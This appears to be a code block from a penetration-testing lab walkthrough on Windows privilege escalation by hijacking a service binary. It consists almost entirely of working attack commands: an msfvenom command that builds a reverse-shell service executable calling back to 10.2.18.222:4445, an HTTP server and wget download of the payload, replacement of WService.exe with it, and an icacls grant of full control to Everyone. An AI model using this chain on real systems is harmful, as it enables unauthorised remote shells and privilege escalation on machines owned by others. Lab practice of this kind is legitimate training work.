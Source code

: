 ```
  

# Query service details

# Executable path is given by '**BINARY_PATH_NAME'**

**# Run user: 'SERVICE_START_NAME'**

sc qc apphostsvc

  

# Create windows binary:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.18.222 LPORT=4445 -f exe-service -o rev-svc.exe

  

  

# Serve the file

python3 -m http.server

  

  

# Download the file

wget http://10.2.18.222:8000/rev-svc.exe -O rev-svc.exe

  

# Copy the file to correct place

  

C:\> cd C:\PROGRA~2\SYSTEM~1\

  

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp

        1 file(s) moved.

  

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe

        1 file(s) moved.

  

  

# Give executable permission to all

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F

        Successfully processed 1 files.

```